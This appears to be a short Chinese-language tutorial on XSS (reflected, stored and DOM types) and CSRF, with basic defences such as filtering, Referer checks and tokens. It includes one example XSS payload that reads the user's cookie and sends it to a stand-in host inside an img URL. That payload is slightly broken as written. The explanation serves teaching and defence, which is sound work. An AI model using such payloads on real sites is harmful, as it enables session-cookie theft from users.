

# XSS与CSRF
# XSS
XSS（Cross Site Scripting）跨站脚本攻击。
看起来很深奥，但是这是原理和简单，攻击者将script标签插入用户的浏览的web页面，csript代码会执行，这样可以获取用户的敏感信息。
分类：
- 反射性
- 存储型
- DOM型：在url后面添加script标签内容
反射性： 比如有个网页需要，填写一个信息并返回给用户，当我们在输入框内容写成下面内容，但返回给用户就执行这个语句了。
<script>
var cook = window.cookie;
var img = `<img src = "www.syte.com/get.php?cook=${cook}"`;
document.write(img);
</script>
注入这个片段后执行时获取用户cookie并把cookie发送到www.syte.com 域名中。
在后端过滤这个script来解决这个问题，还有一个标签当img标签加载失败（img有一个onerror方法，图片加载失败时触发这个方法）也可以发送请求。
# CSRF
CSRF（Cross Site Request Forgy）跨站请求伪造，是一种对网站的恶意利用。
举个例子，当你在一个网站上登陆成功以后，攻击者在你登陆的网站上生成一个点击的按钮或连接，比如点击抽奖等。当你点击以后，以你的名义（你登陆后发送请求时，请求会带上cookie来确认你身份）向服务器发送而已请求，比如修改你的账号密码。

要完成一次CSRF攻击，受害者必须依次完成两个步骤：
1.登录受信任网站A，并在本地生成Cookie。
2.在不登出A的情况下，访问危险网站B。
如何让防范？
- 验证 HTTP Referer 字段
- 在请求地址中添加 token 并验证